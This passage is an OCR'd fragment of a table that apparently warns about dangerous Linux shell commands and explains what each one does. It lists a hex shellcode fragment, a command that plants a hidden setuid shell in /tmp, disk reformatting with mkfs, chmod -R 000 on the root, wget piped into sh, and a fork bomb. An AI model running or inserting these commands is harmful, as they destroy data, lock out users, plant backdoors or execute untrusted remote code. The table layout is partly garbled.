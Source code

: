 | "\\x6e\\x2f\\x73\\x68\\x00\\x2d\\ |                                   |
| x63\\x00″                         |                                   |
|                                   |                                   |
| "cp -p /bin/sh /tmp/.beyond;      |                                   |
| chmod 4755 /tmp/.beyond;";        |                                   |
+-----------------------------------+-----------------------------------+
| mkfs.ext3 /dev/sda                | Reformat the device mentioned,    |
|                                   | making recovery of files hard.    |
+-----------------------------------+-----------------------------------+
| chmod -R 000 /                    | Files are not lost but only       |
|                                   | accessible from another system,   |
|                                   | or a live distro. Nobody will be  |
|                                   | able to login, nor shut the       |
|                                   | computer down, and if forcibly    |
|                                   | shut down it won't start again.   |
+-----------------------------------+-----------------------------------+

Execute a remote script
-----------------------

  -------------------------------------- ----------------------------------------------------------------------------------------------------------------------------------
  wget http://server/file.sh -O- \| sh   This command forces the download of a file and immediately its execution, can be exploited easily using or reverse shell exploit
  -------------------------------------- ----------------------------------------------------------------------------------------------------------------------------------

Fork Bomb
---------

  -------------- ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
  :(){:\|:&};:   The \[in\]famous \"fork bomb\". This command will cause your system to run a large number of processes, until it \"hangs\". This can often lead to data loss (e.g. if the user brutally reboots, or the OOM killer kills a process with unsaved work). If left alone for enough time a system can eventually recover from a fork bomb.
  -------------- ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
